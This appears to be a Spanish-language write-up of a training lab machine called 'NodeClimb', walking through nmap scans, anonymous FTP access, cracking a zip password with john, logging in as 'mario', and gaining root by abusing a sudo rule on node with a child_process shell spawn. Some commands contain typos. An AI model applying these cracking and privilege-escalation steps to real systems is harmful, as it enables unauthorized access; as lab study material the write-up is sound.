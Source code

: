 ### Informe de máquina *"NodeClib"*

![Máquina NodeClimb](../../data/facil/nodeclimb/screenshots/01_maquina.png)

Vamos a realizar la maquina "NodeClimb", como siempre vamos a empezar asignando permisos de ejecución al archivo `auto_deploy.sh` eh inicializamos la maquina con `sudo ./autodeploy ` `nodeclimb.tar`

![Permisos ejecución deploy](../../data/facil/nodeclimb/screenshots/02_permisos_deploy.png)
![Inicialización máquina](../../data/facil/nodeclimb/screenshots/03_inicio_maquina.png)

Realizamos un testeo de conexión con el comando `ping`.

![Test de conexión](../../data/facil/nodeclimb/screenshots/04_ping.png)

Y realizamos un escaneo de puertos abiertos con la herramienta `nmap`, el comando usado fue:

```bash
nmap -sS --min-rate 5000 -p- -vvv -Pn -n 172.17.0.2 -oG nmap
```

- `nmap` → Comando para ejecutar herramienta nmap.
- `-sS` → Escaneo SYN ("Stealth Scan"). Envía paquetes SYN sin completar la conexión TCP (más rápido y sigiloso que -sT).
- `--min-rate 5000` → Fuerza a nmap a enviar al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-p-` → Escanea todos los 65535 puertos (en lugar de solo los más comunes).
- `-vvv` → Modo muy detallado (muestra más información en pantalla mientras se ejecuta).
- `-Pn` → No realiza detección de host (asume que el host está activo y no envía ping previo).
- `-n` → No resuelve nombres de dominio (evita consultas DNS, lo que acelera el escaneo).
- `172.17.0.2` → IP objetivo a escanear.
- `-oG nmap` → Guarda los resultados en formato "greppable" en un archivo llamado nmap.

![Escaneo nmap](../../data/facil/nodeclimb/screenshots/05_nmap.png)

Encontramos los puertos `21` y `22` abiertos, procedemos a realizar un escaneo más detallada de estos.

```bash
nmap -p21,22 -sC -sV -O 172.17.0.2
```

- `nmap` → Ejecuta la herramienta de escaneo de red Nmap.

- `-p21,22` → Especifica los puertos que queremos escanear. En este caso 21 y 22.

- `-sC` → Ejecuta scripts de detección predeterminados

- `-sV` → Detección de versiones de servicios.

- `-O` → Detección del sistema operativo.

- `172.17.0.2` → Especifica la dirección IP del objetivo a escanear.

![Detalle puertos 21 y 22](../../data/facil/nodeclimb/screenshots/06_detalle_puertos_21_22.png)

Detectamos que el servicio FTP permite realizar un logueo como usuario Annonymous, intentamos conectarnos de esa forma:

![Logueo FTP como annonymous](../../data/facil/nodeclimb/screenshots/07_acceso_ftp.png)

Se pudo realizar la conexión, nos encontramos un archivo zip, procedemos a descargarlo:

```bash
wget ftp://172.17.0.2/secretopicaron.zip --no-pasive-ftp
```

![Descarga archivo zip](../../data/facil/nodeclimb/screenshots/08_download_zip.png)

Al intentar descomprimir el archivo zip, vemos que nos solicita una contraseña, intentaremos buscar la  contraseña por fuerza bruta haciendo uso de la herramienta `john`

Primero obtengamos el hash del archivo con el comando:

```bash
zip2john secretopicaron.zip > zip.hash
```

Ahora realizamos el ataque de fuerza bruta con el comando:

```bash
john --worldlists=/usr/share/worldlists/rockyou.txt zip.hash
```

![Password de zip](../../data/facil/nodeclimb/screenshots/09_find_passwd_zip.png)

Identificamos que la contraseña del zip es "password1", procedemos a descomprimir el archivo con `unzip`, encontramos dentro un archivo llamado "password.txt" con el contenido `mario:laKontraseñAmasmalotaHdelbarrioH`
Asumimos que es la contraseña del usuario `mario`

![Password Mario](../../data/facil/nodeclimb/screenshots/10_password_mario.png)

Accedemos con el usuario `mario` y con `sudo 'l` vemos que permisos de ejecución sudo posee este usuario.

![Login como Mario](../../data/facil/nodeclimb/screenshots/11_loging_como_mario.png)

Observamos que el usuairo `mario` puede ejecutar el comando `node` con privilegios, pero solo hacia el archivo `/home/mario/script.js`.

![Permisos sudo de mario](../../data/facil/nodeclimb/screenshots/12_permisos_sudo.png)

Investigamos un poco de cómo podemos ejecutar una shell con el comando node.
Con el comando `nano` editamos el archivo `script.js` de la siguiente forma

```
const { spawn } = require("child_process");
spawn("/bin/sh", { stdio: "inherit" });
```

Ahora procedemos a ejecutar el comando node junto con el script haciendo uso de altos privilegios:

```bash
sudo /usr/bin/node /home/mario/script.js
```

Y ejecutando el comando `whoami` podemos observar que ahora somos usuario `root`

![Login como root](../../data/facil/nodeclimb/screenshots/14_root.png)


